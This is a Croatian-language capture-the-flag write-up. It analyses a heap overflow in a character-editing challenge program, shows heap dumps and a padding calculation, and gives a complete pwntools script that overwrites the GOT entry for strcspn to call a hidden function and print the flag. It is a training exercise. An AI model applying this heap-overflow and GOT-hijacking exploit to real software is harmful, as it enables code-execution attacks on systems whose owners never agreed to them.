 # Writeup

## Otkrivanje ranjivosti



Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **heap overflow** kod urešivanja opisa postojećeg lika.

```
printf("Novi opis (ostavi prazno za ostavljanje starog):\n");
	char privOpis[500];
	strcpy(privOpis, likovi[index]->opis);
	fgets(likovi[index]->opis, 600, stdin);
	likovi[index]->opis[strcspn(likovi[index]->opis, "\n")] = '\0';
	if(strlen(likovi[index]->opis) == 0){
		strcpy(likovi[index]->opis, privOpis);	
	}
```

U programu je za opis pojedinog lika rezervirano polje od 500 bajtova, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 600 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.
```
└─$ checksec --file=likovi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   56 Symbols        No    0               3               likovi
```
Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.


## Objašnjenje ranjivosti

Već je u prošlom zadatku objašnjen PIE pa se ovdje smatra da se razumije.

Kako bi se bolje razumijela ranjivost **heap overflow**, može se pogledati sadržaj heap-a u programu pomoću programa ```gdb``` u kombinaciji s ```pwndbg```. Za vizualni prikaz heap-a koristi se naredba ```vis```:


```
pwndbg> vis

...

0x405290        0x0000000000000000      0x0000000000000021      ........!.......
0x4052a0        0x00000000004052c0      0x0000000000405300      .R@......S@.....
0x4052b0        0x0000000000000000      0x0000000000000041      ........A.......
0x4052c0        0x0000006a6f726548      0x0000000000000000      Heroj...........
0x4052d0        0x0000000000000000      0x0000000000000000      ................
0x4052e0        0x0000000000000000      0x0000000000000000      ................
0x4052f0        0x0000000000000000      0x0000000000000201      ................
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
0x405310        0x002e6b696e746172      0x0000000000000000      ratnik..........
0x405320        0x0000000000000000      0x0000000000000000      ................

...

0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
0x405500        0x0000000000405520      0x0000000000405560       U@.....`U@.....
0x405510        0x0000000000000000      0x0000000000000041      ........A.......
0x405520        0x6361766f6b696c5a      0x0000000000000000      Zlikovac........
0x405530        0x0000000000000000      0x0000000000000000      ................
0x405540        0x0000000000000000      0x0000000000000000      ................
0x405550        0x0000000000000000      0x0000000000000201      ................
0x405560        0x696c6b756d646f50      0x76616b756c206920      Podmukli i lukav
0x405570        0x6e626f7261632069      0x000000002e6b616a      i carobnjak.....
0x405580        0x0000000000000000      0x0000000000000000      ................
0x405590        0x0000000000000000      0x0000000000000000      ................

...
```


Ovdje se može vidjeti kako se na heap-u nalaze podaci o dva lika: Heroj i Zlikovac.
Njihovi chunck-ovi započinju sa ```0x0000000000000021```. Nakon toga slijede dvije adrese koje također pokazuju na heap. Zo su adresa sadržaja imena lika i adresa sadržaja opisa lika.
Ispod tih adresa nalazi se stvarni sadržaj imena i opisa lika. Ime je veliko 50 bajtova, a opis 500 bajtova. 
Vidi se da se podaci za oba lika nalaze jedan pored drugog.
Budući da se na adresu opisa lika upisuje 600 bajtova (to je više nego rezervirana veličina), može se manipulirati sadržajem koji se nalazi izvan opisa lika. Ovdje je važno da nakon opisa prvog lika slijedi chunk za drugog lika.

 
Ovdje se može iskoristiti napad ```GOT hijacking``` kako bi se preusmjerilo izvršavanje programa na funkciju ```ispisiTajnuPoruku```.
GOT (Global Offset Table) je tablica u memoriji koja pohranjuje adrese vanjskih funkcija i varijabli koje se dinamički povezuju tijekom izvršavanja programa.
Ideja je da se uredi jedan zapis funkcije koja se poziva pomoću GOT tablice tako da pokazuje na funkciju ```ispisiTajnuPoruku```. Prva vanjska funkcija koja se poziva je ```strcspn```.

Siruacija u kojoj se može iskoristiti napad je slijedeća:
 - Prvo se uređuje opis prvog lika (Heroj) na način da se u njega upiše: padding do drugog chunka + informacije o chunku (ostaju iste) + adresa funkcije ```strcspn``` iz GOT tablice
 - Zatim se uređuje ime drugog lika (Zlikovac) na način da se u njega upiše adresa funkcije ```ispisiTajnuPoruku```.
 - programski poziv funkcije ```strcspn``` uzrokuje poziv funkcije ```ispisiTajnuPoruku```



Kako bi se izračunao potreban padding, treba se pogledati adresa na kojoj započinje opis prvog lika. 
```
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
```
Ona je ```0x405300```.


Zatim se treba odrediti na kojoj adresi započinje chunk drugog lika. 
```
0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
```
Ona je ```0x4054f8```.

Izračun paddinga:

```
0x4054f0 - 0x405300 = 1F0 = 496 (dec)
496 + 8 = 504
```

Potreban padding je 504 bajta.





## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava heap overflow ranjivost u zadatku. 
Koraci programa:
 - Odabire se opcija za uređivanja likova (4)
 - Odabire se prvi lik (1)
 - Unosi se novi opis lika koji uređuje sadržaj podataka drugog lika i s time omogućuje uređivanje GOT tablice
 - Ponovi se odabir opcije uređivanja likova (4)
 - Odabire se drugi lik (2)
 - Unosi se novi naziv lika koji je adresa funkcije ```ispisiTajnuPoruku```.


```
from pwn import *

io = process("./likovi")
elf = ELF("./likovi")

# = = = START

# Part1

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")

print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"1")

print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))
io.sendline(b"")

print(io.recvuntil(b"Novi opis (ostavi prazno za ostavljanje starog):"))


payload = b""

padding = b"A" * 504

chunk_info = p64(0x21)


strcspn = p64(elf.got["strcspn"])
print(f"Adresa strcspn = {elf.got["strcspn"]:#x}")

payload += padding + chunk_info + strcspn

io.sendline(payload)
print(payload)

# Part2

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")


print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"2")


print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))


payload2 = b""

ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])

payload2 += ispisiTajnuPoruku


io.sendline(payload2)
print(payload2)


# = = = END


io.interactive()

```

Pokretanjem ove skripte, ispiše se flag ```CTFFOI[H3AP_c0ntr0l1ng_G0T]```

